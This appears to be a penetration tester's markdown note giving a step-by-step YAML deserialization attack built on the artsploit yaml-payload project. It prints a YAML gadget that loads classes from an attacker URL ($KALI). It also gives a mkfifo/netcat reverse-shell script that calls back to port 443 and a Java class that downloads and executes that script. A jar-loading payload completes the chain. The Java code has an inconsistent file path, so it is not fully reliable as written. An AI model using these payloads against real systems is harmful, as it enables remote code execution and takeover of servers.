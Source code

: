 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Online YAML parser
See https://github.com/artsploit/yaml-payload

![[Pasted image 20220922153442.png]]

```bash - kali
git clone https://github.com/artsploit/yaml-payload
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```

Should see a call back in you python server.
![[Pasted image 20220922153421.png]]

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/Shelly.sh -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/Shelly.sh");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/Shelly.sh");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```

```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```

[[rlwrap]]

```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```















